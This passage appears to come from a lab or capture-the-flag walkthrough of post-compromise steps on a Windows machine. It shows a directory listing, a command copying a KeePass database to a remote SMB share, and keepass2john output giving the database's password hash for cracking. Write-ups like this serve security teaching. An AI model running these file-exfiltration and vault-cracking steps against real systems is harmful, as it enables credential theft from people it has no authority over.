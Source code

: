 Now with a access to Taylor user, I started checking directories

```
PS C:\Users\taylor> tree /f
Folder PATH listing
Volume serial number is 00000200 AEC0:6C42
C:.
????Contacts
????Desktop
?       KeePass - Shortcut.lnk
?       
????Documents
?       Database.kdbx
?       
????Downloads
????Favorites
?   ?   Bing.url
?   ?   
?   ????Links
????Links
?       Desktop.lnk
?       Downloads.lnk
?       
????Music
????Pictures
????Saved Games
????Searches
????Videos
```

We found the KeePass database. I downloaded the database to my machine

```
copy Documents\Database.kdbx \\10.8.0.4\test\database.kdbx
```

The database is protected with a password so we need to crack it

```
kpcli --kdb database.kdbx 
Provide the master password: 
```
## Cracking KeePass database

I extracted the hash using `keepass2john`

```
keepass2john  database.kdbx
```

```
database:$keepass$*2*60000*0*fa25330f0cee5d8599dbaa55f8e7dc712d2448c2904af33033dd114ca051b27b*666fd415d20e5613cadd094129e973e203a10fef79153ec6b00763cf224eb209*4a5e8537a0f1c4554ee49744369bbdea*14b77bfa03e8cf3f9b8616dd80ff0a3b7179467727fca10c5150e188e224be98*2996adaab16d60c01229faa959829820658358e9abcf227eeff42b135c01dba3
```
